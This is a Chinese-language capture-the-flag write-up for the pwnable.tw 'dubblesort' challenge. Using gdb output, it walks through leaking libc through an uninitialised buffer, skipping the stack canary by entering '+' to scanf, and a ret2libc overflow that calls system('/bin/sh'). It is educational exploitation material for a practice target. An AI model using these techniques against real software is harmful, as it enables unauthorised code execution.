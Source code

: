# dubblesort

> Challenge link: [dubblesort](https://pwnable.tw/challenge/#4)
>
> Category: pwn

Sort the memory!

`nc chall.pwnable.tw 10101`

[dubblesort](https://pwnable.tw/static/chall/dubblesort)

[libc.so](https://pwnable.tw/static/libc/libc_32.so.6)

## Observation

一開始程式先問了**名字**，接著問要**排列幾個數字** ，最後依序輸入**各個數字**後會排列完輸出結果

看到這題時，我想到之前在 `csie.ctf.tw` 有寫過一題 bubblesort ，那題是透過排列的數字沒有限制數量來蓋到 return address，或許這題有類似的漏洞

```bash
$ ./dubblesort
What your name :a
Hello a
,How many numbers do you what to sort :3
Enter the 0 number : 0
Enter the 1 number : 1
Enter the 2 number : 2
Processing......
Result :
0 1 2
```

### file

```bash
$ file dubblesort
dubblesort: ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=12a217baf7cbdf2bb5c344ff14adcf7703672fb1, stripped
```

### checksec

保護全開

```bash
gdb-peda$ checksec
CANARY    : ENABLED
FORTIFY   : ENABLED
NX        : ENABLED
PIE       : ENABLED
RELRO     : FULL
```

### input

名字是使用 `read()` 來讀取，讀取的長度是 0x40

```bash
   0x56555a11 <main+78>:	mov    DWORD PTR [esp],0x0
=> 0x56555a18 <main+85>:	call   0x56555630 <read@plt>
   0x56555a1d <main+90>:	mov    DWORD PTR [esp+0x8],esi
Guessed arguments:
arg[0]: 0x0
arg[1]: 0xffffd72c --> 0xff17
arg[2]: 0x40 ('@')
```

要排列的數量是使用 `scanf()` ，且參數是 `%u` 也就是 unsigned int

```bash
   0x56555a45 <main+130>:	mov    DWORD PTR [esp],eax
=> 0x56555a48 <main+133>:	call   0x56555700 <__isoc99_scanf@plt>
   0x56555a4d <main+138>:	mov    eax,DWORD PTR [esp+0x18]
Guessed arguments:
arg[0]: 0x56555bfa --> 0x45007525 ('%u')
arg[1]: 0xffffd708 --> 0xe0
```

接著數字的部分一樣是使用 `scanf()` 加上 `%u` 

```bash
   0x56555a92 <main+207>:	mov    DWORD PTR [esp],eax
=> 0x56555a95 <main+210>:	call   0x56555700 <__isoc99_scanf@plt>
   0x56555a9a <main+215>:	add    esi,0x1
Guessed arguments:
arg[0]: 0x56555bfa --> 0x45007525 ('%u')
arg[1]: 0xffffd70c --> 0xf7f37f0a (mov    edx,DWORD PTR [esp+0x18])
```

### sort

sort 的參數是 要排列的數量 以及 第一個數字在 stack 上的位址，排列的方式看起來沒什麼問題

```bash
   0x56555ab0 <main+237>:	mov    DWORD PTR [esp],eax
=> 0x56555ab3 <main+240>:	call   0x56555931
   0x56555ab8 <main+245>:	lea    eax,[ebx-0x138c]
Guessed arguments:
arg[0]: 0xffffd70c --> 0x0
arg[1]: 0x3
----------------------- stack -----------------------
0028| 0xffffd70c --> 0x0 		# num 0
0032| 0xffffd710 --> 0x1		# num 1
0036| 0xffffd714 --> 0x2 		# num 2
```

### name

在測試 name 的時候，發現有時候會輸出一些不可視字元

```bash
./dubblesort
What your name :aaaa
Hello aaaa
y��/,How many numbers do you what to sort :
```

經過觀察後發現應該是因為 name 沒有將所有空間先歸零，所以輸出時才會連同後面的舊資料一起輸出

### stack canary

因為有開 canary 的關係，就算沒有檢查最多可以輸入幾個數字，再輸入超過時依然會噴錯

```bash
*** stack smashing detected ***: ./dubblesort terminated
```

利用二分搜的方式測試，發現最多只能輸入到 24 個數字，如果到第 25 個數字的話，在排列時就會噴出以上的錯誤訊息

## Solution

總共有三個步驟要做

1. leak libc
2. bypass canary
3. ret2libc

### Leak libc

這邊我利用的是 name

因為 name 的 buffer 沒有先清空的關係，所以可以 leak 出後面的數值

```bash
0060| 0xffffd72c ("aaaa\n\331\377\377/")
0064| 0xffffd730 --> 0xffffd90a --> 0xfb6d2200
0068| 0xffffd734 --> 0x2f ('/')
0072| 0xffffd738 --> 0x8e
0076| 0xffffd73c --> 0x16
0080| 0xffffd740 --> 0x8000
0084| 0xffffd744 --> 0xf7fcb000 --> 0x1b1db0
0088| 0xffffd748 --> 0xf7fc9244 --> 0xf7e31020 (call   0xf7f38b59)    <==
```

由上面 stack 內容可知，第 8 個包含一個位址，可以記錄下此時 libc base 與其之間的差值，並在真正 leak 出此值時減掉差值，即可得到 libc base

```bash
0xf7fc9244 - libc_base = x (固定的)
leak_addr - x = libc_base
```

只要輸入 28 (4*7) 個字元作為 payload ，就可以印出這個位址的值了

```bash
0060| 0xffffd72c ('a' <repeats 28 times>, "\n\222\374\367\001VUV\251WUV\240oUV\001")
0064| 0xffffd730 ('a' <repeats 24 times>, "\n\222\374\367\001VUV\251WUV\240oUV\001")
0068| 0xffffd734 ('a' <repeats 20 times>, "\n\222\374\367\001VUV\251WUV\240oUV\001")
0072| 0xffffd738 ('a' <repeats 16 times>, "\n\222\374\367\001VUV\251WUV\240oUV\001")
0076| 0xffffd73c ('a' <repeats 12 times>, "\n\222\374\367\001VUV\251WUV\240oUV\001")
0080| 0xffffd740 ("aaaaaaaa\n\222\374\367\001VUV\251WUV\240oUV\001")
0084| 0xffffd744 ("aaaa\n\222\374\367\001VUV\251WUV\240oUV\001")
0088| 0xffffd748 --> 0xf7fc920a --> 0x0
```

### bypass canary

在 observation 時，有利用二分搜的方式找到 canary 的位置在第 25 個

此時可以利用輸入時的 `scanf("%u")` ，一般在輸入時，要輸入 unsigned int 才會被接受，但是這樣會蓋掉 canary ，經過搜尋後才知道，原來可以輸入 '+'，此時會被當作正常輸入，但保留此位置原始的值，直接跳到下一個，如此一來就可直接繞過 canary 了

### ret2libc

要做到 ret2libc 的話達成兩個條件

- libc base
- return address

libc base 在先前已經透過 name 取得了，想要控制 return address 的話，可以利用輸入數字時的 buffer overflow，因為已經跳過 canary 了，所以可以一直推到 return 的位置，並進而控制 return address

這邊我一樣用二分搜的方式來做，如果有蓋到 return address 的位置的話會出現以下訊息

```bash
[*] Process './dubblesort' stopped with exit code -11 (SIGSEGV) (pid 2290)
```

搜尋過後知道 return address 是在第 33 個位置

```bash
24(payload) + canary + 7 + ret
```

最後就是使用 libc base 找到 `system` 以及 `/bin/sh` 串接在 return address 的位置即可

## Note

### pwntool libc

因為有給 libc ，所以在本機測試時最好是掛上 libc ，否則位址可能會跟遠端不同

```python
r = process('./dubblesort', env={'LD_PRELOAD':'./libc_32.so.6'})
```

### sort

在輸入 payload 時，因為輸入完後還會進行排序，所以要確保排序過後順序依然不變

我的作法是前 24 個字就直接輸入 0~23 ，canary 的部分輸入 + (43)，接著後面的 7 個字放 libc base，最後 `system` 及 `/bin/sh` 因為要加上 libc base ，所以一定比 libc base 大

### system

在呼叫 system 時，stack 第一個位置是結束後的 return address，因為不會 return 了，所以隨便填就可以了，接著才是 system 的第一個參數 `/bin/sh` 